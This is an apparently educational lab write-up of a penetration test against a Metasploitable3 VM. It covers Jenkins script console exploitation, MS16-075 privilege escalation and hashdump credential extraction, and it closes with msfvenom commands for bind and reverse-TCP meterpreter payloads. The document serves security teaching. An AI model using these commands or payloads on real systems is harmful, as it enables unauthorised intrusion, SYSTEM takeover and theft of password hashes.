To begin this penetration testing exercise, I configured two virtual machines within a NAT network (192.168.100.0/24). The Kali Linux machine was assigned IP 192.168.100.4, while the target Windows Metasploitable3 machine received IP 192.168.100.5.

Figure 1 - IPs of the machines
The first step in any penetration test is reconnaissance. I performed a comprehensive port scan using Nmap to identify open services on the target machine:
nmap -sV -p- 192.168.100.5
Figure 2 - Nmap fingerprinting results
Among the discovered services, port 8484 caught my attention. Further analysis confirmed that Jenkins was running behind this port, presenting a potential attack vector.

Figure 3 - Confirming Jenkins is behind this port
I needed to determine if the Jenkins instance required authentication. Using curl, I probed the service to understand its security configuration:
curl -I http://192.168.100.5:8484/
Figure 4 - Response from curl on port 8484
The reconnaissance revealed that no authentication was required for the Jenkins console. I searched for relevant exploits in Metasploit that could leverage this vulnerability to establish a meterpreter shell.

Figure 5 - Exploit search in Metasploit
I selected the jenkins_script_console exploit, which targets Jenkins script
consoles that are accessible without proper authentication. This exploit allows for the
establishment of a meterpreter session by executing arbitrary code through the Jenkins
script console. The configuration required setting RHOSTS, RPORT, and TARGETURI parameters.

Figure 6 - Exploit configuration
The exploit executed successfully, granting me a meterpreter shell on the target system. This initial access provided a foothold for further enumeration and privilege escalation.

Figure 7 - Meterpreter shell established
After establishing the initial shell, I gathered information about the current user privileges
and system details using the getuid and sysinfo commands.

Figure 8 - Information about privileges and system
The initial enumeration revealed that I did not have administrative privileges. To achieve full system compromise, privilege escalation was necessary. I backgrounded the meterpreter session and returned to the Metasploit framework to search for local Windows exploits:
search type:exploit platform:windows local
Figure 9 - MS16-075 reflection juicy exploit
I selected the ms16_075_reflection_juicy exploit, which combines the MS16-075
vulnerability with "Juicy Potato" techniques. This exploit targets a vulnerability in the
Windows Secondary Logon service, allowing escalation from a local user to SYSTEM privileges.

Figure 10 - Privilege escalation with ms16_075_reflection_juicy
After running the privilege escalation exploit, I verified the new privilege level using
the getsystem command to confirm successful elevation to SYSTEM privileges.

Figure 11 - Privilege verification
With SYSTEM privileges successfully obtained, I demonstrated the impact by extracting
password hashes from the system using the hashdump command.

Figure 12 - Hashdump example
A fundamental concept in penetration testing is understanding the difference between bind and reverse payloads. The main distinction lies in the direction of the connection established when the payload executes.

Figure 13 - Illustration of Bind and Reverse payloads (S3Curiosity, 2023)
A bind payload creates a server (listener) on the target machine that waits for the attacker to connect. In this scenario, the victim "listens" on a specific port, waiting for an incoming connection from the attacker.
msfvenom -p windows/meterpreter/bind_tcp LPORT=4444 -f exe > bind_payload.exeProcess:
use exploit/multi/handler
set payload windows/meterpreter/bind_tcp
set LHOST 192.168.1.5
set LPORT 4444
exploitA reverse payload makes the target machine initiate the connection to the attacker. The victim connects to the attacker, who is in listening mode. This is the more common type as it usually evades firewalls more easily, since many firewalls allow outgoing connections but block incoming ones.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe > reverse_payload.exeProcess:
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.5
set LPORT 4444
exploitS3Curiosity. (2023). Understanding Shell, Reverse Shell, and Bind Shell: A Comprehensive Guide. Retrieved from Medium: https://medium.com/@S3Curiosity/understanding-shell-reverse-shell-and-bind-shell-a-comprehensive-guide-6bad2169edbd